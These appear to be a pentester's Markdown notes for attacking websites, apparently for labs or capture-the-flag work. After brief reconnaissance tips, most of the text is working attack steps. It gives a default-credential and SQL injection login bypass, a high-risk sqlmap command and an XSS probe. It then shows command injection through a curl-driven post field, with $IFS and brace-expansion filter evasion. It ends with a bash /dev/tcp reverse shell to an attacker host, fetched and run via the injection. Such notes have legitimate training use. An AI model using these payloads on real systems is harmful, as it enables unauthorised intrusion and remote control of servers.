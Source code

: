 # First Steps
## Wappalyzer 
Shows which techologies were used to create the website
- Security
- Cloud
- CMS
- Language

### CMS Systems
#### WordPress (Open-Source)
Websites around blogging 
#### Magento (Open-Source)
Websites around shopping

## Check URL's
Click around the website and see how the folders are organized
> [!NOTE] 
> Check what the home folder is (Ex. index.php).
> This could be an indictation that Apache Mod Read Write was misconfigured.
## Copyright 
The copyright at the bottom of the page typically indicates when the website was last updated. If you see an old copyright, the website will typically have old software.
> [!NOTE] 
> The website can be configured to pull the current date for the copyright
## Check for a CMS scanner 
Look for a scanner for the CMS that the website was created with.
- **WordPress**: wpscan
- **Magento**: magescan

## Common Files
- **index.php**: tells you if it is a php website
- **robots.txt**: guide for search engine bots (telling them where not to go)
- **index.html**: default home page

# Next Steps
## Login Page 
### Try Default Creds 
admin:admin
> [!NOTE] 
> Look up default credentials based on the service
### SQL Injection
admin:' or 1=1;--
### SQLMap
1. Capture a login request with Burp and save it as log.req
2. Run SQL injection testing
```bash
sqlmap -r login.req --batch --dbs --level=3 --risk=3
```
> [!NOTE] 
> Cross Site Request Forgery (CSRF) Tokens are unique for each session/request and are validated server-side. This makes it hard for sqlmap to work properly.


> [!Caution]
> Running a high risk factor could negatively impact the server
### Forgot Password
See if you can validate email addresses.
### Sign Up 
Try to sign up for a new account

## Posts
### Cross-Site Scripting 
Attempt to Bold Text
```form
<b>TITLE/USERNAME</b>
```
### Check if there is a User-Agent 
Set up Listener on Attacking Machine
```bash
sudo nc -lvnp 80
```
In Post
```form
http://<ATTACKING_IP>/
```
Take note User-Agent (ex. Curl)
#### Curl
Ex. Request:
```bash
os.popen(curl $Content)
```
1. Check if you can download a file

(On Attacking Machine)
  ```bash
  echo "Test" > test
  ```
(Website: Post)
  ```form
  http://<ATTACKING_IP>/test -o /var/www/html/test
  ```
(Website)
Go to http://IP/test to see if the test file is there

2. Check if you can execute code

Proof of Concept:
  ```form
  http://<ATTACKING_IP>/$(whoami)
  ```
Burp Suite Repeater (Capture Request)

  Test
  ```form
  http://<ATTACKING_IP>/$(echo test)
  ```

  URL Encoding
  ```form
  http://<ATTACKING_IP>/$(echo+test)
  ```

  Bracket Expansion
  ```form
  http://<ATTACKING_IP>/$({echo,test})
  ```

  IFS Variable
  ```form
  http://<ATTACKING_IP>/$(echo$IFS'test')
  ```

3. Execute a Reverse shell
Reverse Shell
```File
bash -c 'bash -i &> /dev/tcp/<ATTACKING_IP>/<PORT> 0>&1'
```
Start Web Server 
```bash
sudo python3 -m http.server 80
```
Download Reverse Shell
```form
http://<ATTACKING_IP>/$(curl$IFS' -o'$IFS'/var/www/html/test'$IFS'http://ATTACKING_IP>/test')
```
Execute Reverse Shell
```form
http://<ATTACKING_IP>/$(bash$IFS'/var/www/html/test')
```
## Searchsploit
Search for CMS exploits with similar version numbers 
> [!NOTE]
> Compare creation_date/vendor_contact to copyright (creation after copyright)



